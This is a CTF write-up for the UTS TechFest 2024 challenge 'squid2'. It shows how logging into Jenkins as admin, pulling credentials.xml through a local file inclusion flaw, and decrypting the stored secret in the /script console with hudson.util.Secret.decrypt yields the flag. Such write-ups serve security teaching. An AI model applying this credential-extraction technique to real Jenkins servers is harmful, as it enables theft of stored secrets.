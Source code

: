 ```yaml
---
title: "squid2"
description: "I automated my jenkins installation. The guide I followed was from early last year, hope the version is still secure 🙂"
pubDate: 2024-06-29
ctf: "UTS TechFest 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-utstechfest/icon.png"
---
```


> Note: This is a part 2 to [squid1](/writeups/24-utstechfest-squid1)

Using the password from the environment variables earlier (`admin_password_you_cant_guess`) we can login to user `admin`.

Looking at the Credentials page, there is an encrypted credential `flag2`. By using the LFI vulnerability we can download the credentials at `/var/jenkins_home/credentials.xml`.

```xml
<?xml version='1.1' encoding='UTF-8'?>
<com.cloudbees.plugins.credentials.SystemCredentialsProvider plugin="credentials@1337.v60b_d7b_c7b_c9f">
  <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
    <entry>
      <com.cloudbees.plugins.credentials.domains.Domain>
        <specifications/>
      </com.cloudbees.plugins.credentials.domains.Domain>
      <java.util.concurrent.CopyOnWriteArrayList>
        <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
          <id>flag2</id>
          <description>its encrypted so it must be safe</description>
          <username>flag2</username>
          <password>{AQAAABAAAAAwCUulNsaJVDl75mG5AmwJ2+yjdYSwWakDQBiLw5YClGvGHYgb1cSxuvPyfQSkjGCWZEnSdxeP8k13u/jZ6H8YKw==}</password>
          <usernameSecret>false</usernameSecret>
          <scope>GLOBAL</scope>
        </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
      </java.util.concurrent.CopyOnWriteArrayList>
    </entry>
  </domainCredentialsMap>
</com.cloudbees.plugins.credentials.SystemCredentialsProvider>
```

Using the `password` value, we can use the console at `/script` to decrypt it.

```
println( hudson.util.Secret.decrypt("{AQAAABAAAAAwCUulNsaJVDl75mG5AmwJ2+yjdYSwWakDQBiLw5YClGvGHYgb1cSxuvPyfQSkjGCWZEnSdxeP8k13u/jZ6H8YKw==}") )
```

Flag: `CSEC{D3cryp71ng_A11_7h5_53cr3t5!}`